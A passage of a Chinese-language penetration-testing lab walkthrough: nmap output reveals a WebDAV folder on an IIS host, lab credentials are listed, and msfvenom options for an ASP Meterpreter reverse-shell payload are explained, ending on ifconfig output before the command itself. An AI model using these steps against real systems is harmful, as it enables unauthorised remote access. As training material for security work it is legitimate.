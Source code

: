 ```
root@attackdefense:~# nmap -sV -p 80 --script=http-enum 10.0.20.119
Starting Nmap 7.91 ( https://nmap.org ) at 2022-09-11 14:15 IST
Nmap scan report for 10.0.20.119
Host is up (0.0037s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-enum: 
|_  /webdav/: Potentially interesting folder (401 Unauthorized)
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.94 seconds

```

```
http://10.0.20.119/webdav/

bob
password_123321
```

我们如何使用 Metasploit 在目标系统上获取 Meterpreter 会话或反向 shell。

使用 msfvenom 自己生成 ASP 有效负载。

Msfvenom 是一个工具，它允许您生成有效负载，为您提供反向 shell 和对目标系统的远程访问。在这种情况下，我们将获得一个 Meterpreter 会话，它是高级反向 shell，允许我们执行附加功能，例如上传文件、从目标下载文件等。

为了生成 ASP 有效负载：

`-p`：payload，使用`windows/meterpreter/reverse_tcp`，这是一个staged payload。

`LHOST`：提供我们的 IP 地址。 `ifconfig`。有效负载在执行时将连接到的 IP。

`LPORT`：有效负载要连接的端口。

`-f`：文件格式。

```
root@attackdefense:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.0.38  netmask 255.255.0.0  broadcast 10.1.255.255
        ether 02:42:0a:01:00:26  txqueuelen 0  (Ethernet)
        RX packets 22326  bytes 1742578 (1.6 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 18859  bytes 5174513 (4.9 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.21.3  netmask 255.255.255.0  broadcast 10.10.21.255
        ether 02:42:0a:0a:15:03  txqueuelen 0  (Ethernet)
        RX packets 5751  bytes 2519693 (2.4 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 7852  bytes 847246 (827.3 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 119486  bytes 114743248 (109.4 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 119486  bytes 114743248 (109.4 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
